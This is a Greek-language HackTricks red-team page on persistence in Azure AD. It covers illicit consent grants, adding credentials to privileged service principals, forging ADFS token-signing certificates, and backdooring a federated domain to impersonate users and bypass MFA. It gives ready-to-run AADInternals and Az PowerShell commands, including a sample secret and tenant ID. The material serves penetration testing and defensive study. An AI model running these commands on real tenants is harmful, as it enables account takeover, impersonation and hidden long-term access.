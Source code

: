 # Az - Μόνιμη παραμονή

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

### Παράνομη Χορήγηση Συναίνεσης

Από προεπιλογή, οποιοσδήποτε χρήστης μπορεί να καταχωρίσει μια εφαρμογή στο Azure AD. Έτσι, μπορείτε να καταχωρίσετε μια εφαρμογή (μόνο για τον στόχο του tenant) που χρειάζεται δικαιώματα υψηλής επίδρασης με τη συναίνεση του διαχειριστή (και να την εγκρίνετε εάν είστε ο διαχειριστής) - όπως η αποστολή email εκ μέρους ενός χρήστη, διαχείριση ρόλων κ.λπ. Αυτό θα μας επιτρέψει να **εκτελέσουμε επιθέσεις phishing** που θα ήταν πολύ **επιτυχημένες** σε περίπτωση επιτυχίας.

Επιπλέον, μπορείτε επίσης να αποδεχτείτε αυτήν την εφαρμογή με τον χρήστη σας ως έναν τρόπο να διατηρήσετε πρόσβαση πάνω της.

### Εφαρμογές και Υπηρεσιακοί Υποκείμενοι

Με τα προνόμια του Διαχειριστή Εφαρμογών, GA ή ενός προσαρμοσμένου ρόλου με δικαιώματα ενημέρωσης διαπιστευτηρίων microsoft.directory/applications/credentials, μπορούμε να προσθέσουμε διαπιστευτήρια (κρυφό ή πιστοποιητικό) σε μια υπάρχουσα εφαρμογή.

Είναι δυνατόν να **επιτεθείτε σε μια εφαρμογή με υψηλά δικαιώματα** ή να **προσθέσετε μια νέα εφαρμογή** με υψηλά δικαιώματα.

Ένας ενδιαφέρων ρόλος που μπορεί να προστεθεί στην εφαρμογή είναι ο **Ρόλος Διαχειριστή Προνομιούχου Ταυτοποίησης**, καθώς επιτρέπει την **επαναφορά κωδικού πρόσβασης** των Γενικών Διαχειριστών.

Αυτή η τεχνική επίσης επιτρέπει την **παράκαμψη του MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Για πιστοποίηση βάσει πιστοποιητικού

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Ομοσπονδία - Πιστοποιητικό Υπογραφής Διακριτικού

Με **προνόμια DA** στον τοπικό AD, είναι δυνατόν να δημιουργήσουμε και να εισαγάγουμε **νέα πιστοποιητικά υπογραφής διακριτικού** και **πιστοποιητικά αποκρυπτογράφησης διακριτικού** με πολύ μεγάλη ισχύ. Αυτό θα μας επιτρέψει να **συνδεθούμε ως οποιονδήποτε χρήστη** του οποίου γνωρίζουμε το ImuutableID.

**Εκτελέστε** την παρακάτω εντολή ως **DA στους διακομιστές ADFS** για να δημιουργήσετε νέα πιστοποιητικά (προκαθορισμένος κωδικός πρόσβασης 'AADInternals'), προσθέστε τα στο ADFS, απενεργοποιήστε την αυτόματη ανανέωση και επανεκκινήστε την υπηρεσία:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Στη συνέχεια, ενημερώστε τις πληροφορίες του πιστοποιητικού με το Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Ένωση - Έμπιστος τομέας

Με τα προνόμια GA σε έναν ενοικιαστή, είναι δυνατόν να **προστεθεί ένας νέος τομέας** (πρέπει να επαληθευτεί), να διαμορφωθεί ο τύπος πιστοποίησης του σε Ένωση και να διαμορφωθεί ο τομέας για να **εμπιστευτεί ένα συγκεκριμένο πιστοποιητικό** (any.sts στην παρακάτω εντολή) και έκδοση:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Αναφορές

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΠΛΑΝΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
